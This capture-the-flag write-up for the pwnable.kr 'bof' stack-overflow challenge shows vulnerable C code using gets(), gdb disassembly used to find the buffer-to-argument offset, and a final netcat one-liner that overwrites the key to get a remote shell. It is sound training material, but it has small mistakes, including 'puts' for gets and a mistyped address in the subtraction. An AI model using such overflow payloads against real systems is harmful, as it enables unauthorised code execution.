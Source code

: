###

Welp, let's try and inspect the given `bof.c` code.

```c
#include <stdio.h>                                             
#include <string.h>                                            
#include <stdlib.h>                                            
void func(int key){                                            
    char overflowme[32];                                       
    printf("overflow me : ");                                  
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){                                     
        system("/bin/sh");                                     
    }                                                          
    else{                                                      
        printf("Nah..\n");                                     
    }                                                          
}                                                              
int main(int argc, char* argv[]){                              
    func(0xdeadbeef);                                          
    return 0;                                                  
}                                                              

```

From the pretty obvious wordings, and description of the CTF, we can understand that some overflow should occur here, more accurately,
we input something into `char overflowme[32]` through `puts` (which is very vulnerable) and hope to overwrite `int key`.

Let's try to find the addresses of `key` and of `overflowme`
```
(gdb) b func
Breakpoint 1 at 0x632
(gdb) r
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x56555632 in func ()
(gdb) disas func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   %ebp
   0x5655562d <+1>:     mov    %esp,%ebp
   0x5655562f <+3>:     sub    $0x48,%esp
=> 0x56555632 <+6>:     mov    %gs:0x14,%eax
   0x56555638 <+12>:    mov    %eax,-0xc(%ebp)
   0x5655563b <+15>:    xor    %eax,%eax
   0x5655563d <+17>:    movl   $0x5655578c,(%esp)
   0x56555644 <+24>:    call   0xf7c73260 <puts>
   0x56555649 <+29>:    lea    -0x2c(%ebp),%eax
   0x5655564c <+32>:    mov    %eax,(%esp)
   0x5655564f <+35>:    call   0xf7c728b0 <gets>
   0x56555654 <+40>:    cmpl   $0xcafebabe,0x8(%ebp)
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    movl   $0x5655579b,(%esp)
   0x56555664 <+56>:    call   0xf7c48150 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    movl   $0x565557a3,(%esp)
   0x56555672 <+70>:    call   0xf7c73260 <puts>
   0x56555677 <+75>:    mov    -0xc(%ebp),%eax
   0x5655567a <+78>:    xor    %gs:0x14,%eax
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7d33930 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
(gdb) 
```

We can see pretty quickly that prior to the `gets` call we have some preparation to it, mainly the `lea` and `mov`:
```
0x56555649 <+29>:    lea    -0x2c(%ebp),%eax
0x5655564c <+32>:    mov    %eax,(%esp)
```

This probably means that `overflowme` is at -0x2c(%ebp), we can even verify it by giving an input and then inspecting that memory address:
```
Breakpoint 1, 0x56555632 in func ()
(gdb) disas func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   %ebp
   0x5655562d <+1>:     mov    %esp,%ebp
   0x5655562f <+3>:     sub    $0x48,%esp
=> 0x56555632 <+6>:     mov    %gs:0x14,%eax
   0x56555638 <+12>:    mov    %eax,-0xc(%ebp)
   0x5655563b <+15>:    xor    %eax,%eax
   0x5655563d <+17>:    movl   $0x5655578c,(%esp)
   0x56555644 <+24>:    call   0xf7c73260 <puts>
   0x56555649 <+29>:    lea    -0x2c(%ebp),%eax
   0x5655564c <+32>:    mov    %eax,(%esp)
   0x5655564f <+35>:    call   0xf7c728b0 <gets>
   0x56555654 <+40>:    cmpl   $0xcafebabe,0x8(%ebp)
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    movl   $0x5655579b,(%esp)
   0x56555664 <+56>:    call   0xf7c48150 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    movl   $0x565557a3,(%esp)
   0x56555672 <+70>:    call   0xf7c73260 <puts>
   0x56555677 <+75>:    mov    -0xc(%ebp),%eax
   0x5655567a <+78>:    xor    %gs:0x14,%eax
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7d33930 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
(gdb) b *0x56555654
Breakpoint 2 at 0x56555654
(gdb) c
Continuing.
overflow me : 
hey

Breakpoint 2, 0x56555654 in func ()
(gdb) x/1s $ebp-0x2c
0xffffce4c:     "hey"
```
Great!
Now let's grab `key`'s address, we can be assured it's 0x8(%ebp) since it is used in the `cmpl` instruction with `0xcafebabe`:
```
(gdb) x/1xw $ebp+0x8
0xffffce80:     0xdeadbeef
```

Now let's subtract the address of `key` from `overflowme` since the argument is always in higher address than a local variable:
```python
In [6]: 0xffffce80 -0xfffce4c                                                                                                                                                                          
Out[6]: 52
```

So now we know that we need to give as input at least 52 characters before we start overflowing into the address of `key`, meaning that we can overwrite the value of it to be `0xcafebabe`:  
`(python2 -c "print '1'*52 + '\xbe\xba\xfe\xca'" && cat) | nc pwnable.kr 9000`

And we got a `bof` shell on the remote machine :)
